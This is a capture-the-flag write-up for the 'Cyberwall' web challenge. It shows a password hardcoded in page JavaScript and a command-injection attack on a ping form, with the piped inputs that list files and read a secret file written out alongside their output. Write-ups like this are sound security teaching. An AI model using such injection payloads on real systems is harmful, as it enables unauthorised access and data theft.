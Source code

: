 ```yaml
---
layout: post
title: "Cyberwall - Cyber Security Rumble CTF 2020"
author: gameplayone23
tags:
- WEB
- 2020
---
```


# Cyberwall

- Category: Web

*"We had problems with hackers, but now we got a enterprise firewall system build by a leading security company."*

- There is a website that goes to http://chal.cybersecurityrumble.de:3812/

# Get in

The `password` is located in the index.html

```html
<script type="text/javascript">
    function checkPw() {
        var pass = document.getElementsByName('passwd')[0].value;
        if (pass != "rootpw1337") {
        alert("This Password is invalid!");
        return false;
        }
        window.location.replace("management.html");
    }
</script>
```

# Ping a host

The website provides a feature to ping a host but the form is not sanitized.

After the host we can add shell command :

```bash
ping localhost | ls
```

displays :

```
requirements.txt
static
super_secret_data.txt
templates
webapp.py
wsgi.py
```

Then 

```bash
ping localhost | cat super_secret_data.txt
```
displays the flag :

```
CSR{oh_damnit_should_have_banned_curl_https://news.ycombinator.com/item?id=19507225}
```

